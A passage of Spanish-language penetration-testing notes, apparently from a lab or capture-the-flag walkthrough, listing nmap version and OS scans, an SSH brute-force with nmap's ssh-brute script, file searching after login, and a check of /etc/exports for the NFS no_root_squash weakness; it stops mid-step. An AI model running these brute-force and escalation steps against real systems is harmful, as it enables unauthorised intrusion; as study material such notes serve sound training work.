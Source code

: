 4. Averiguar version de los servicios ejecutándose en los puertos

	nmap [ip] -sV -p [lista_puertos]	-> Para puertos TCP
	sudo nmap [ip] -sUV -p [lista_puertos]	-> Para puertos UDP

	V: Version, p: puerto

	Salida:
		PORT	STATE	SERVICE	VERSION
		22/tcp	open	ssh	OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
		...	...	...	...

5. Averiguar la version del sistema operativo instalado en la maquina

	sudo nmap [ip] -O

	O: Sistema Operativo

	Salida:
		Running: Linux 2.6.X
		OS CPE: cpe:/o:linux:linux_kernel:2.6
		OS details: Linux 2.6.9 - 2.6.33

6. Iniciar sesion en la maquina a traves de SSH

	1 - Intentar conseguir credenciales con fuerza bruta

	nmap --script ssh-brute [ip]

	Salida:
		Accounts:
			[nombre_usuario]:[contraseña] - Valid credentials

	2 - Conseguidas las credenciales, iniciar sesion en la maquina

	ssh [nombre_usuario]@[ip] // [contraseña]

	3 - Dentro, buscamos ficheros

	find / -type f -name [nombre_fichero] 2> /dev/null

		2> /dev/null	-> no imprime los errores

	4 - Ver permisos de fichero

	ls -l [ruta_fichero]

	5 - Si permiso de lectura, ver contenido de fichero

	cat [ruta_fichero]

	6 - Cambiar permisos

		0. Como tiene NFS activo, comprobar que se pueda montar
			el arbol de directorios y ver los permisos que
			aporta al cliente

		cat /etc/exports
		
		Si tiene activa la opcion "no_root_squash", esta
			permitiendo a cualquier cliente en modo root
			acceder a los ficheros como root en el server
